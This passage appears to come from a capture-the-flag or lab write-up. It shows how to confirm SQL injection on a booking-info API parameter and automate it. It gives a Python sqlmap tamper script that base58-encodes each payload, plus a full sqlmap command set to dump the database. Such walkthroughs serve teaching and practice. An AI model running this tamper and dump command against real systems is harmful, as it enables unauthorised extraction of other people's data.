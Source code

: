 ![](../images/Pasted%20image%2020250702163611.png)


![](../images/Pasted%20image%2020250702163714.png)

No bad request so it may work, let's try to enumerate the number of rows by using `order by`:

![](../images/Pasted%20image%2020250702163810.png)

![](../images/Pasted%20image%2020250702163858.png)

![](../images/Pasted%20image%2020250702163911.png)

On `3` we get a bad request, which means that SQLI is possible, we can automate the process with `sqlmap` but we need a tamper, a tamper is a little Python hook that sits between the tool and the target, grabbing every injection payload sqlmap generates and transforming it before it’s sent. we need it thanks to the `base58` format, let's use this script:

```python
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```

Now, we need to create a tamper.py file with those contents and an `__init__.py` file too, once we do it, we can send the following `sqlmap` command:

```bash
sqlmap -u "http://IP/api/booking-info?booking_key=" -p "booking_key" --tamper=PATH TO TAMPER.PY/tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump -batch
```


Make sure you got `base58` on pip before using the command:

```
pip install base58
```

We can see this:

![](../images/Pasted%20image%2020250702164805.png)

